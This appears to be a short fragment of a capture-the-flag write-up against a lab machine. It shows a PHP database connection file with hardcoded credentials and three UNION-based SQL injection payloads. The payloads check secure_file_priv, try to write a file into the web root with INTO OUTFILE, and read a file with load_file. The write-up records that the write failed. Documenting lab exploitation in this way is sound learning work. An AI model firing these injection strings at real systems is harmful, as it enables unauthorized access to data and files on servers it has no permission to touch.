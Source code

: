 ```php
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Restrictions to write file?

```bash
' union all select variable_value from information_schema.global_variables where variable_name='secure_file_priv'-- -
```

```bash
' union all select 'Test 123' into outfile '/var/www/html/test.txt'-- -
```

```bash
' union all select load_file('/var/www/html/test.txt')-- -
```

No success

![SQL - Challenge](images/sqli_challenge_flag.png)